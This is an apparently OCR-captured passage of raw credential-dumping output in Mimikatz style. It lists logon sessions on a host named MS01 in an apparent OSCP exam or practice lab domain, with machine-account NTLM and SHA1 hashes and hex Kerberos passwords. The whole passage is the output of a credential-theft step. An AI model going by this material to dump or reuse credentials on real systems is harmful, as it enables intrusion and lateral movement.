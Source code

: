 ```bash
         * Password : ec 3f f3 28 b2 fe 85 c4 b0 4b 82 8b 38 c1 1d 2a b4 2a 57 eb bc 55 c9 a6 fd 89 af 26 46 c2 69 23 3d ec 16 b0 58 39 e7 09 fd 0f 2d a1 93 1c 4d af 23 e7 1d 95 e2 0c 33 04 f7 e8 ed 48 9f b1 83 b3 fb 12 b1 7f 61 a3 de 8d 44 1b 39 80 78 50 f0 96 98 ac 52 86 3b 03 bb 61 fc 00 94 09 89 75 db c7 34 0c b9 b0 e2 f2 5d 0c 0b 72 52 36 50 6e 91 1d 70 db 56 0e 75 b5 8c 3f 8a 81 56 83 d3 a6 a0 04 88 d0 cd fd 1f 7b 7c c0 32 3f 54 37 b8 d0 2b 98 d1 6e 81 01 3c f5 d9 b9 ad 0f e7 81 fa 03 03 b0 86 3d b2 5f 1d 44 4e 14 b2 08 30 b8 4a af e2 45 87 10 a1 39 6c cf 34 93 9a 3f 0c c2 02 87 0b 08 2d c0 cd d0 d2 ae 23 df 74 f5 c6 4c 6a 9e 35 9c 8c a0 97 d8 0d ef 71 90 e4 b3 08 eb 1b 58 10 9f 36 f2 49 2b bb 36 b4 8d 32 80 b7 9f f8 47 0a 9d 
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 48204 (00000000:0000bc4c)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 2/12/2025 2:30:08 PM
SID               : S-1-5-96-0-1
        msv :
         [00000003] Primary
         * Username : MS01$
         * Domain   : OSCP
         * NTLM     : a913a6db3451444d9dfe26db3f8a8df4
         * SHA1     : 4438b324479e351bcc5c8e645edee0b0a6534637
        tspkg :
        wdigest :
         * Username : MS01$
         * Domain   : OSCP
         * Password : (null)
        kerberos :
         * Username : MS01$
         * Domain   : oscp.exam
         * Password : ec 3f f3 28 b2 fe 85 c4 b0 4b 82 8b 38 c1 1d 2a b4 2a 57 eb bc 55 c9 a6 fd 89 af 26 46 c2 69 23 3d ec 16 b0 58 39 e7 09 fd 0f 2d a1 93 1c 4d af 23 e7 1d 95 e2 0c 33 04 f7 e8 ed 48 9f b1 83 b3 fb 12 b1 7f 61 a3 de 8d 44 1b 39 80 78 50 f0 96 98 ac 52 86 3b 03 bb 61 fc 00 94 09 89 75 db c7 34 0c b9 b0 e2 f2 5d 0c 0b 72 52 36 50 6e 91 1d 70 db 56 0e 75 b5 8c 3f 8a 81 56 83 d3 a6 a0 04 88 d0 cd fd 1f 7b 7c c0 32 3f 54 37 b8 d0 2b 98 d1 6e 81 01 3c f5 d9 b9 ad 0f e7 81 fa 03 03 b0 86 3d b2 5f 1d 44 4e 14 b2 08 30 b8 4a af e2 45 87 10 a1 39 6c cf 34 93 9a 3f 0c c2 02 87 0b 08 2d c0 cd d0 d2 ae 23 df 74 f5 c6 4c 6a 9e 35 9c 8c a0 97 d8 0d ef 71 90 e4 b3 08 eb 1b 58 10 9f 36 f2 49 2b bb 36 b4 8d 32 80 b7 9f f8 47 0a 9d 
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 48153 (00000000:0000bc19)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 2/12/2025 2:30:08 PM
SID               : S-1-5-96-0-0
        msv :
         [00000003] Primary
         * Username : MS01$
         * Domain   : OSCP
         * NTLM     : a913a6db3451444d9dfe26db3f8a8df4
         * SHA1     : 4438b324479e351bcc5c8e645edee0b0a6534637
        tspkg :
        wdigest :
         * Username : MS01$
         * Domain   : OSCP
         * Password : (null)
```